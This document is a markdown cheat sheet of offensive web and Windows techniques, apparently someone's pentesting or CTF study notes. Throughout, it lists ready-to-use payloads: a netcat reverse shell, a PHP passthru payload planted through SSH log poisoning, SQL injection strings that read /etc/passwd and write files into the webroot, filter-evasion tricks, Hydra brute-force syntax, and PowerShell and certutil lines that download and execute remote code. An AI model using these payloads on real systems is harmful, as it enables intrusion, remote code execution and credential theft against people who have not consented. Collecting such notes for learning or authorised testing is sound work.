 # Methods

#### RCE

`;` or `|` to add commands

***

#### LFI

* traverse directories
* `/proc/self/environ`
  * can also be done on other log files
  * can send base64 encoded scripts through and decode
  * `ssh [payload]@[hostip]`
  * payload would be something like `<?php passthru(base64_decode('[b64encoded string]')); ?>`
* use burp to mod headers
* `nc -e /bin/sh [ip] [port]`
  * add listener first `nc -lvnp [port]`
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

***

#### RFI

* storing a txt file on webserver of a machine we have access to which can connect to the machine we want access to (we want to attack MS VM we have access to Kali VM, store file on Kali, use LFI but pass in url to file to pull, add `?` to param to get it to execute as php, change caps of protocol for bypassing some checks)

***

#### File uploads

* change mime type
* change file extension
* add magic characters

***

#### SQL Injection

* in forms:
  * check with `pass' and 1=1#` in password field if you have a valid login
  * can also use `pass' OR 1=1#` with an invalid login but have a good username
  * could also just use username field if good username: `admin'#`
  * if there are checks on the client side, can remove onsubmit functions in the dom or intercept good data on burp and modify before it's sent to include the SQLi
* in get params:
  * try `order by 1#`, may have to urlencode `#` to `%23`
  * use this to increment through column count then you can `union select 1,2,3..n%23`
  * `union select 1,table_name,null,null,..,n from information_scema.tables`
  * etc,etc
* to bypass some filtering, you may need to convert strings into hex, urlencode everything and send it
* sometimes changing param sequences or case will bypass some filters as well
* when records are limited, iterate in sql to get all info desired
  *
    * `limit 0,1` then `1,1`, `2,1`, etc etc
* reading files: `union select load_file('/etc/passwd'),2 #`
* write to file: `union select 'test text',null into outfile '/var/www/output.txt'#`
  * may not have write access, use LFI for possible workaround if available - write to /tmp with sql injection, use LFI to access file (could also to RFI if separate machines have different vulns)
* Tools
  * sqlmap
    * `sqlmap -r [filename].req --level 4 --risk 3`

***

#### XSS

* more info from python course
* url params and input boxes
* `<script>alert('1')</script>`
* often change case to fool filters
* look at page source to see how code is being output and modify accordingly
* urling urlencoding is almost always helpful
* always try to modify the DOM (remove inline methods, remove maxlength attributes, etc)
* get charcode, use String.fromCharCode instead of using quotes

***

#### Cookies

* simple cookies can be manipulated to allow access (uid, etc)

***

#### CSRF

* make a hidden version of a form that submits on load

***

#### Creating Wordlists

* crunch: `crunch [min] [max] [chars] -t [pattern] -o [filename]`
* `crunch 6 8 123abc$ -o wordlist -t a@@@@b`, 6-8 chars, include 1,2,3,a,b,c,$, start with a, end with b

***

#### encrypted cookies

* can sometimes be busted with padbuster

***

#### Brute forcing

* Hydra
  * `hydra [hostIP] -l [login] -L [loginfile] -p [pass] -P [passfile] -C [user:pass file] [service]`
  * for web form, append `"path-to-form.ext:[username]=^USER^&password=^PASS^&other-param=param:F=Not Logged In String"`

***

#### ZAP

* automated scanning, but more manual than many of the tools
* can audit all scans after

***

#### hashcat

* `hashcat --example-hashes`
* LUKS exncrypted disk images
  * `cryptsetup luksDump [imgfile]` to get payload offet +1
  * `dd if=[imgfile] of=[outfile] bs=512 count=[offset]`
  * `hashcat -m 14600 [file] [wordlist]`

***

#### mounting LUKS disk image

* `cryptsetup luksOpen backup.img [name]`
* `ls /dev/mapper`
* `mount /dev/mapper/[name] /mnt`

***

#### PowerShell

* powershell can switch from cmd to powershell
* Downloading files:
  * `IEX(New-Object Net.WebClient).downloadString('http://[host]/[file]')`
  * `(New-Object Net.WebClient).downloadString('http://[host]/[file]')`
  * `Invoke-WebRequest -Uri http://[host]/[file]`
    * `IWR -uri http://[host]/[file]` also works
    * `-OutFile C:\\windows\\temp\\filename.ext` to specify a filename
  * if in cmd shell, need to use `powershell` prefix
* listing all files:
  * `gci -recurse . | select fullname`
* copy binary file to b64 string for rebuilding:
  * `certutil -encode [filepath] [outfile path].b64`
  * `type [outfile path].b64`
  * copy, paste to file on host
  * base64 decode it:
    * `base64 -d [filename].b64 > [filename].ext`
* creating credentials from string
  * `$pass = ConvertTo-SecureString '[pass]' -AsPlainText -Force`
  * `$cred = New-Object System.Management.Automation.PSCredential("[user]",$pass)`
  * `hostname`
  * `Invoke-Command -Computer [hostnmame] -ScriptBlock { whoami } -Credential $cred`
    * can use this to then run another IWR to grab a shell and get escalated shell
* useful to use rlwrap on your listener:
  * `rlwrap nc -lvnp 9001` - this will give history up arrow, ctrl L to clear, etc.
* bypass admin lockout if in admin group
  * `net use Z: \\127.0.0.1\c$`
  * `z:`
* UACME for ways to bypass UAC

***

#### CMD

* download a file
  * `certutil -urlcache -f http://[host]/[file] [outfile path]`

***

#### TheHarvester

#### whatweb

#### wappalyzer

#### pownjs
